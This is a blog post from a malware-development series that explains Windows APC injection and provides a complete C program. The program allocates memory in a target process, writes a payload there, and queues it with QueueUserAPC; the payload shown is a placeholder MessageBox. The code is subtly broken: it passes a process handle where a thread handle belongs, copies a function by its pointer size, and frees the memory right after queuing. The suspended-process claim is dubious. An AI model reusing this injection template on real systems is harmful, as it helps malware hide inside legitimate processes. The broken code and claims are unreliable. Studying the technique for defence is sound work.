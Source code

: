 ```yaml
---
layout: single
title: "Payload Unleashed: APC Injection"
date: 2024-03-02
classes: wide
header:
  teaser: /assets/images/maldev.png
categories:
  - infosec
tags:
  - windows
  - malware
  - payload-unleashed
---
```

[Asynchronous Procedure Calls (APC)](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) are a fundamental mechanism in Windows operating systems, facilitating asynchronous execution of code within a process context. APCs are typically used for tasks like I/O completion, thread execution, and more. However, attackers exploit this mechanism to inject and execute malicious code within legitimate processes.

# How APC Injection Works

APC injection involves the insertion of malicious code into the address space of a target process by queuing a fake APC to be executed at a specific point in the process. This technique enables attackers to execute arbitrary code in the context of a legitimate process, thereby bypassing traditional security mechanisms.

The injection process typically follows these steps:

1. **Process Selection**: The attacker identifies a target process where they intend to inject malicious code.
2. **Memory Allocation**: They allocate memory within the target process to store the malicious payload.
3. **Payload Injection**: The attacker copies their malicious code into the allocated memory space of the target process.
4. **APC Queuing**: A fake APC is queued to the target process, pointing to the address of the malicious code.
5. **Execution**: When the target process enters an alertable state, the queued APC is executed, leading to the execution of the malicious payload.

## Alertable state

Asynchronous Procedure Calls (APCs) are kernel-mode routines executed within the context of a specific thread. Malware can exploit APCs to queue a payload, which then executes when scheduled.

Threads capable of running a queued APC function must be in an alertable state. This state is achieved when a thread is in a wait state, enabling it to process queued APC functions. To place a thread in an alertable state, WinAPI functions such as SleepEx, MsgWaitForMultipleObjectsEx, WaitForSingleObjectEx, WaitForMultipleObjectsEx, or SignalObjectAndWait can be used. These functions are typically utilized for thread synchronization and application responsiveness enhancement. However, in this context, merely passing a handle to a dummy event suffices.

# Hands-On: APC Injection with C Code Snippet

## Understanding the APC Injection Process

Before delving into the code snippet, let's understand the purpose of each function used in the APC injection process and its significance within the attack:

1.   **[OpenProcess()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)**: This function is used to open a handle to the target process identified by its process ID (`<TARGET_PROCESS_ID>`). By opening the target process, we gain the necessary access rights to perform operations such as memory allocation and writing.
    
2.   **[VirtualAllocEx()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)**: Once the target process is opened, this function is employed to allocate memory within the target process's address space. This allocated memory will be used to store the malicious payload, enabling its execution within the context of the target process.
    
3.   **[WriteProcessMemory()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)**: With memory allocated within the target process, this function is utilized to write the malicious payload (in this case, the `MaliciousCode` function) into the allocated memory space. By writing the payload into the target process's memory, we prepare for its execution within the context of the process.
    
4.   **[QueueUserAPC()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)**: This function is central to the APC injection technique. It queues an Asynchronous Procedure Call (APC) to the target process, specifying the address of the malicious payload to be executed. When the target process enters an alertable state, typically during certain system calls or when waiting for I/O operations, the queued APC is scheduled for execution

5.   **Malicious Payload Execution**: Upon entering an alertable state, the queued APC is executed within the target process. As a result, the address of the malicious payload is invoked, leading to the execution of the malicious code within the context of the legitimate process.

## C Code Snippet

Now, let's dive into the provided C code snippet, which demonstrates the APC injection process. Remind that not all processes are eligible for this injection, only the suspended ones.

```c
#include <windows.h>
#include <stdio.h>

// Function pointer for the malicious payload
typedef VOID (*MALICIOUS_PAYLOAD)();

// Malicious payload to be executed
VOID MaliciousCode()
{
    MessageBoxA(NULL, "Malicious payload executed!", "APC Injection", MB_OK | MB_ICONWARNING);
}

int main()
{
    // Open the target process for injection
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, <TARGET_PROCESS_ID>); // Replace <TARGET_PROCESS_ID> with the process ID of the target process

    if (hProcess == NULL)
    {
        printf("Failed to open target process. Error code: %d\n", GetLastError());
        return 1;
    }

    // Allocate memory within the target process for the malicious payload
    LPVOID pPayloadAddress = VirtualAllocEx(hProcess, NULL, sizeof(MaliciousCode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (pPayloadAddress == NULL)
    {
        printf("Failed to allocate memory in target process. Error code: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }

    // Write the malicious payload to the allocated memory in the target process
    if (!WriteProcessMemory(hProcess, pPayloadAddress, &MaliciousCode, sizeof(MaliciousCode), NULL))
    {
        printf("Failed to write malicious payload to target process. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pPayloadAddress, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Queue the APC to the target process
    if (!QueueUserAPC((PAPCFUNC)pPayloadAddress, hProcess, NULL))
    {
        printf("Failed to queue APC to target process. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pPayloadAddress, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    printf("APC injected successfully!\n");

    // Clean up
    VirtualFreeEx(hProcess, pPayloadAddress, 0, MEM_RELEASE);
    CloseHandle(hProcess);

    return 0;
}
```

This code snippet encapsulates the entire process of APC injection, from opening the target process to executing the malicious payload within its context. 

There are other types of techniques to implement APC injection, such as Early Bird APC Injection, which queues an APC to the main thread of a newly created process (spawned in an alertable state). 

Take in mind that this is not the only possible implementation, APC injection can be implemented using Standard Win32 APIs (Win32API), Native APIS (NTAPI) and Direct Syscalls (Syscall). To do not mess things up, we will be addressed this injection flavors in future blog posts. 

# Conclusion

In this post, we've explored the Asynchronous Procedure Calls (APC) injection. APC injection involves inserting malicious code into the address space of legitimate processes, leveraging the Windows operating system's mechanism for asynchronous code execution. 

Through a hands-on demonstration with a C code snippet, we've showcased the practical implementation of APC injection. Explore more in the "Unraveling the Malware Mysteries" series at [Unraveling the Malware Mysteries](https://noelit911.github.io/Unraveling-the-Malware-Mysteries/).